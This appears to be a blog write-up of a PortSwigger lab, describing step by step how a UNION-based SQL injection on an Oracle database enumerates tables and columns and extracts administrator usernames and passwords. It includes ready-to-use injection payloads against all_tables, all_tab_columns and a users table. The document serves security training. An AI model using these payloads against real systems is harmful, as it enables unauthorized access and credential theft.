 +++
title = 'Sql Injection Listing Databse Contents'
date = 2024-07-19T16:33:29+05:30
slug = "portswigger-SQL-database-listing-oracle-databse"
categories = ["portswigger","SQL injection","listing databsse contents","noracle databases"]
+++

![](https://dl.dropbox.com/scl/fi/rocv21p8e6vsvm81vytl3/Pasted-image-20240528164508.png?rlkey=n27fgzgqr2lvv3xwdxk0qtkeg&st=byi3qpz0&dl=0)

From the LAB description there is a SQL Vulnerability in the product category filter and to complete this lab we need to log in as administrator 

this lab contains oracle database 
refer to [SQL CHEAT SHEET](../SQL%20CHEAT%20SHEET.md) for payloads

HINT:
On Oracle databases, every `SELECT` statement must specify a table to select `FROM`. If your `UNION SELECT` attack does not query from a table, you will still need to include the `FROM` keyword followed by a valid table name.

There is a built-in table on Oracle called `dual` which you can use for this purpose. For example: `UNION SELECT 'abc' FROM dual`

let's know about dual 

https://docs.oracle.com/en/database/oracle/oracle-database/19/sqlrf/Selecting-from-the-DUAL-Table.html


i've captured the request and sent into the repeater 

This website has 2 columns too since we got internal server with order by 3

let's check for data type to perform union attack 

![](https://dl.dropbox.com/scl/fi/l0xpvcq2pvb3k7xmhtgk7/Pasted-image-20240528165117.png?rlkey=tp9ksqc4uairwjly13fgmesai&st=pfk7z1fb&dl=0)

we now know that both are of same text we can inject our paylaoads

From the cheat sheet since it's a oracle database


 `'+UNION+SELECT+table_name,NULL+FROM+all_tables--`

will list all the 

![](https://dl.dropbox.com/scl/fi/thf3i5lxiw9cbqdv6uhc8/Pasted-image-20240528165310.png?rlkey=l5ijekqp5pbl96y9a8t79fbqn&st=mb57wazq&dl=0)

we've got some table listed let's go through tables and find what we r looking for

![](https://dl.dropbox.com/scl/fi/q0i4brdaqogrqdiw3i9iw/Pasted-image-20240528165534.png?rlkey=2or4rmotzufhsc7o20b0mr0uj&st=hi0i2aau&dl=0)

we've got our username table now let's view that table
username table : USERS_QFTLRV

to view the details of username table 

'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_QFTLRV'--

![](https://dl.dropbox.com/scl/fi/oe7rdv9r7czfnd5pcflch/Pasted-image-20240528165801.png?rlkey=nef1pd2a8usio7llrvakrw2po&st=0l867he8&dl=0)

password table : PASSWORD_KSZHEB
username : USERNAME_PNBHKP
now  let's retrieve the details 

payload will be 

'+UNION+SELECT+USERNAME_PNBHKP,+PASSWORD_KSZHEB+FROM+USERS_QFTLRV--

![](https://dl.dropbox.com/scl/fi/ckpgvwyct58q4on0sw1kr/Pasted-image-20240528170016.png?rlkey=4gm1qvjyzncm22m7o59y2ssjm&st=qqyl5kkz&dl=0)

we got the administrator details let's login to our account to solve the lab 

![](https://dl.dropbox.com/scl/fi/zmav0e8c16m4w55ea9936/Pasted-image-20240528170228.png?rlkey=gajo12hoh0fobly7hfslk0t2e&st=qe39tsvl&dl=0)